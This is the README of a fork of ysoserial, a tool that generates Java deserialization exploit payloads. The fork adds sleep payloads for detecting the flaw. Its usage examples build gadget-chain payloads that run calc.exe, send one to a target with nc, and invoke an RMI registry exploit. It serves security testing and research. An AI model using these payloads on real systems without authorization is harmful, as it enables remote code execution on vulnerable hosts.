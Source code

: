 
# ysoserial 

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.
Why did I fork it?  To add ability to create java sleep payloads for more of the ysoSerial payloads types.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) 

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

This version edited by Federico Dotta add the possibility to generate a gadget that lead to the java.lang.Thread.sleep function in addction
to the java.lang.Runtime.exec one. The sleep function can be easly used to verify the presence of the vulnerability, before using the 
exec payload to exploit it. It is usefull to have an easy way to detect the presence of the issue because the exec command don't return any output
and in some cirumstances can be very hard to understand if the injected command has been executed.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar ysoserial-0.0.3-with-sleep-payloads.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-with-sleep-payloads.jar [payload type] [payload function] '[command to execute]'
        Available payload types:
                CommonsCollections1
                CommonsCollections2
                CommonsCollections3
                CommonsCollections4
                Groovy1
                Spring1
                Jdk7u21

        Available payload functions:
                exec
                sleep        
```

## Examples

```shell
$ java -jar ysoserial-0.0.3-with-sleep-payloads.jar CommonsCollections1 exec calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.3-with-sleep-payloads.jar Groovy1 exec calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.3-with-sleep-payloads.jar ysoserial.RMIRegistryExploit myhost 1099 CommonsCollections1 exec calc.exe
```

## Installation

1. Download the latest jar from the "releases" section.

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
